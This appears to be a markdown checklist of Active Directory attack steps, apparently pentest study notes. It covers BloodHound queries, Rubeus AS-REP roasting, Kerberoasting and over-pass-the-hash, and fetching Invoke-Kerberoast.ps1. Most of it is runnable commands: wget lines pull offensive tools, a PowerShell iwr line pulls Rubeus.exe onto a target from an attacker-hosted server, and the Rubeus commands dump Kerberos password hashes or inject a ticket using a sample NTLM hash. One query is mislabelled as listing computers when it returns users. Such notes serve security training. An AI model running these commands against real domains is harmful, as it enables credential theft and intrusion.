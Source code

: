 - [ ] View BloodHound Analysis on your Kali Machine
```
E.g.,
Find all Domain Admins
Find Shortest Paths to Domain Admins
Shortest Paths to Domain Admins from Owned Principals
```
- Right-click the line between the nodes between user and machine and click _? Help_, BloodHound to show additional information
	- View Abuse info
- Right-click pwned users and click "Mark as Owned"
	- Re-run analysis

- [ ] Use custom bloodhound query to display all computers on your Kali Machine
```
MATCH (m:User) RETURN m
```

- [ ] Use custom bloodhound query to display all active sessions on your Kali Machine
```
MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p
```

## Rebeus

- [ ] Download and serve `Rubeus.exe` on your Kali Machine
```
wget https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe
python3 -m http.server 80
```

- [ ] Use the iwr cmdlet to download `Rubeus.exe` on the Target Machine
```powershell
powershell iwr -uri http://192.168.xxx.xxx:80/Rubeus.exe -Outfile Rubeus.exe
```
### AS-REP Roasting
- [ ] Use `Rubeus.exe` to get the AS-REP hash on the Target machine
```
.\Rubeus.exe asreproast /nowrap
```
- Get user password hashes that "Do not require Kerberos preauthentication"
### Kerberoasting
- [ ] Use `Rubeus.exe` to get the TGS-REP hash on the Target machine
```
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```
- Get service account password hashes
### Over Pass the Hash
- [ ] Use `Rubeus.exe` to get the TGT on the Target machine
```
.\Rubeus.exe asktgt /domain:hentai.com /user:sussygirl /ntlm:364933f79b1246e075243cc66de609bf /ptt
```

## Invoke-Kerberoast.ps1
### Kerberoasting
- [ ] Download and serve `Invoke-Kerberoast.ps1` on your Kali Machine
```
wget https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1
python3 -m http.server 80
```

